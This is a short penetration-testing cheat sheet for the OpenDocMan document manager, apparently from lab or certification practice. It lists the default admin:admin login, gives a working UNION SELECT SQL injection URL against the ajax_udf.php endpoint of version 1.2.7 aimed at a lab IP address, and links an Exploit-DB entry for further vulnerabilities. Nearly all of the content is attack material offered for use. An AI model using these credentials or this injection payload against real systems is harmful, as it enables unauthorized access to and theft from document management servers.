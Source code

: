 # opendocman

## Default Credentials

```
admin:admin
```

## SQLi

v1.2.7

```
http://10.11.1.68/opendocman/ajax_udf.php?q=1&add_value=odm_user UNION SELECT 1,version(),3,4,5,6,7,8,9
```

## Multiple Vulns

v1.2.7

```
https://www.exploit-db.com/exploits/32075
```
